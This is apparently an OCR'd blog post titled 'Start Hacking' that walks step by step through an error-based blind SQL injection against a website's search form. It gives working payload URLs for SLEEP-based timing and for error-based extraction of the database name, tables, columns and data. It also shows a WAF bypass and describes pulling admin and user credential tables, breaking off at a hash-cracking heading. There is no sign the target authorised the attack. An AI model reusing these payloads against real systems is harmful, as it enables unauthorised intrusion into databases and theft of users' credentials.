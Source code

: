 ```yaml
---
layout: post
title: Start Hacking
---
```


1. First to check of course is search form.
url: /search/?'
We get Result:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version.
Whoua! This query is vulnerable to SQL Injection. Now we must to determine type of injection.

2.  Adding always true statement
url: search/?' or '1'='1
We get bad result: Subquery returns more than 1 row. It means that our query is inside another one possible ne Where clause. For Example 
Select * From Orders Where field = (Select field from order_fields)
It means that our injection is Blind, we can’t see result and because we see errors from sql queries it means that we have error-based blind sql injection.

3. To be sure we are in right way, GO TO SLEEP.
url: search/?1' OR (SELECT SLEEP(3)) or '1'='1
Please be quite our server is sleeping.

There are some well known tactics to work in this situation, googling will give us this well-know samples. We just add some modifications to fit our request. 
4.  Let’s try to get current database name in hex.
url: search/?1' or(select 1 from(select count(*),concat((select (select concat(0x7e,0x27,Hex(cast(database() as char)),0x27,0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
Not Acceptable, 406 ! This is bad, first thing that coming to mind is we have WAF and he is blocking max_get_size. But simplifying query doesn’t get result. After some research I found out that WAF is blocking ‘information_schema.tables’ combination in url….
It was sad, but after 1-2 hours of researching I found out that there is bypassing way of this restriction, here is: “information_schema 0.e.tables”



5. After getting database namem we need to get table names from information_schema.

Getting Table Results
url: 1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(table_name as char)),0x27,0x7e) FROM information_schema 0.e.tables Where table_schema=0xDATABASE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
Click-Method show us that they have 95 tables, after retrieving them one and one we found interesting ones:
tt_users, tt_admin_lists
6. Let’s start from tt_admin_lists. ( We need to get column names, then by table name and column name get value again one by one )
Getting Column Names:
url: 1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(column_name as char)),0x27,0x7e) FROM information_schema 0.e.columns  Where table_schema=0xDATABASE_NAME_IN_ HEX AND table_name=0xTABLE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
admin _id, admin_login, admin_password

Getting column data:
url: 1' or(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,Hex(cast(tt_admin_lists.admin_login as char)),0x27,0x7e) FROM `DATABASE_NAME`. tt_admin_lists LIMIT 1,1) ) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
Unfortunately this table was blank.

7. After that we do same steps for tt_users table and get result.
Column Names:
User, pass, type, name
And 5 users.

8. HASH HACKING STEP
